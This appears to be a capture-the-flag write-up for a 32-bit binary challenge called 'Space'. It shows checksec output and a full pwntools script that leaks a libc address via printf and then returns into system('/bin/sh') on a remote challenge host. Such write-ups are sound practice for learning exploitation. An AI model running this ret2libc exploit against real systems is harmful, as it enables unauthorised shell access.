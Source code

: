 # Space

Another 32 bit ELF with no protections enabled.
```bash
ubuntu@ubuntu:~/Desktop/Space$ file space
space: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=90e5767272e16e26e1980cb78be61437b3d63e12, not stripped
ubuntu@ubuntu:~/Desktop/Space$ checksec --file ./space 
[*] '/home/ubuntu/Desktop/Space/space'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
We can read only 31 characters, but that is enough.
We can leak the libc version by first leaking printf(), then fflush().
Then we can leak one of them and come back to main() to exploit the bug again and then run system(/bin/sh)

```python
#!/usr/bin/python3

from pwn import *

# we can read at most 31 bytes
# 18 is the offset, so we can have 3 bytes of payload after
IP, port = '138.68.182.108', 32346
context.binary = './space'
printf_plt = pack(0x08049040)
printf_got = pack(0x804b2d4)
read_got = pack(0x804b2d0)
flush_got = pack(0x804b2d8)
bin_sh_offset = 0x18f352
system_offset = 0x045420
printf_offset = 0x053de0
elf = ELF('./space', checksec=False)

leaked_printf = 0xf7e04340
leaked_lib_c_start_main = 0x0
offset = 18
padding = b'A'*offset
def main():
    r = remote(IP, port)
    #r = elf.process()
    #gdb.attach(r)
    payload = [padding, printf_plt, pack(elf.sym['main']), printf_got]
    payload = b''.join(payload)
    r.recv()
    r.sendline(payload)
    leak_str = r.recv()
    leak = u32(leak_str[:4].ljust(4, b'\x00'))
    print(f'The leaked printf is {hex(leak)}')
    libc_base = leak - printf_offset
    print(f'Leaked libcbase is {hex(libc_base)}')
    system = pack(libc_base + system_offset)
    bin_sh = pack(libc_base + bin_sh_offset)
    payload = [padding, system, p32(0xdeadbeef), bin_sh]
    payload = b''.join(payload)
    r.sendline(payload)
    r.interactive()

if __name__ == "__main__":
    main()
```

